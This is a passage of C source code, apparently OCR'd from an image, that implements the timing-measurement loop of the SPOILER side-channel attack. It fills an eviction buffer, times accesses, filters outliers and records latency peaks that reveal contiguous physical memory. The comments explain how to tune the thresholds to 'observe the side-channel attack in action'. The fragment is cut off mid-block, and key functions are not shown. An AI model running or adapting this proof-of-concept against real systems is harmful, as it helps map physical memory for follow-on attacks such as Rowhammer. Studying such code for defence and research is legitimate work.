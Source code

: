 ```
	uint16_t * conflictBuffer;
	conflictBuffer = (uint16_t*) malloc(PAGE_COUNT * sizeof(uint16_t));

  	#define WINDOW 64
	#define THRESH_OUTLIER 1000	// Adjust after looking at outliers in t2.txt
	#define THRESH_LOW 300		// Adjust after looking at diff (t2.txt)
	#define THRESH_HI 500		// Adjust after looking at diff (t2.txt)
  	//Run the program first to generate t2.txt, which shows the times required to fetch addresses
  	//Plot t2.txt to visually observe the side-channel attack in action
	
	int cont_start = 0;			// Starting and ending page # for cont_mem
	int cont_end = 0;
	
	t2_prev = 0;
	cl = clock();
	for (int p = WINDOW; p < PAGE_COUNT; p++)
	{
		total = 0;
		int cc = 0;

		for (int r = 0; r < ROUNDS; r++)		
		{
			for(int i = WINDOW; i >= 0; i--)
			{
				evictionBuffer[(p-i)*PAGE_SIZE] = 0;
			}

			SPOILER(evictionBuffer, &tt);
			if (tt < THRESH_OUTLIER)
			{
				total = total + tt;
				cc++;
			}
		}
		if (cc != 0) {
			measurementBuffer[p] = total / cc;
		}
		// Extracting the peaks
		if (total/ROUNDS-t2_prev > THRESH_LOW && total/ROUNDS-t2_prev < THRESH_HI)
		{
			peaks[peak_index] = p;
			peak_index++;
		}
		t2_prev = total / ROUNDS;
	}

  // Writing the timings into the file, required to figure out appropriate threshold times
  // The output of the file represents the nanosecond time elapsed to access consecutive address spaces. The occassional 'spike' in delays represent boundaries of consecutive memory space.
  //THRESH_OUTLIER is the numeric used to remove high-latency outliers potentially caused by system interrupts of some kind. (generally 1000ns is good enough)
  //THRESH_LOW is used to establish outline of the lowest access time, should be the floor of all values in t2
  //THRESH_HIGH is used to establish the 'spikes' in delay, should be set to approximately the floor of the 'spike' values - only discoverable after plotting t2 values.

//Uncomment to produce the file. t2.txt values will depend on system
	/*
	FILE *t2_file;
	t2_file = fopen("t2.txt", "w");
	for(int p = 0; p < PAGE_COUNT; p++)
		fprintf(t2_file, "%u\n", measurementBuffer[p]);
	fclose(t2_file);
```